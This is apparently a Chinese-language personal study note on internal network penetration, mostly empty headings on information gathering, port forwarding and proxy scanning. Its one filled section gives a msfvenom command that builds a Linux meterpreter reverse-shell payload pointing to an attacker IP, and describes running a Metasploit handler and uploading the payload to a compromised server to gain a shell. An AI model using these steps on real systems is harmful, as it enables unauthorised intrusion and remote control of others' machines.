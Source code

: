 ```yaml
---
categories: [渗透测试]
tags: 内网渗透 msf 代理 信息收集
---
```

# 2023.10.10
参考链接:[内网渗透思路](https://www.cnblogs.com/r00tuser/articles/7344853.html)
## 0x01 信息收集

### 1.1 收集测试网络环境

***
### 1.2 收集服务器信息

***
### 1.3 内网扫描
#### 端口转发
##### tcp端口转发

##### http转发

***
#### 代理扫描内网
##### http代理转发

##### tcp代理转发
###### 生成msf木马
1. 生成木马
   
   由于攻击机无法访问肉鸡的端口，而肉鸡可以访问攻击机的端口，因此生成一个反向的木马。
    ```
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=攻击机ip LPORT=8000 -f elf > shell_8000.elf
    ```
2. 反弹shell
   
    攻击机运行msfconsole，使用exoloit/multi/handler模块，set payload linux/x86/meterpreter/reverse_tcp跟生成木马时用的payload一样。LPORT设置成木马将要连接的端口，运行后会在攻击机上监听一个端口，等待木马链接。

    此时将shell_8000.elf上传 到肉鸡服务器上，添加权限后运行木马将会主动连接上攻击机监听的端口，并在攻击机上获取一个meterpreter shell。
3. 设置路由
   上一步获取到了一个session，这个session是攻击机与肉鸡相互连接的会话。
   
   查看下肉鸡的网络情况：
   
###### 反弹shell

###### 设置路由

##### tcp全局转发

***
#### 端口扫描工具

***
### 1.4 端口转发的逆袭
内网扫描过后的
#### meterpreter实现端口转发

##### 案例

#### lcx端口转发

***

### 1.5 内网扫描
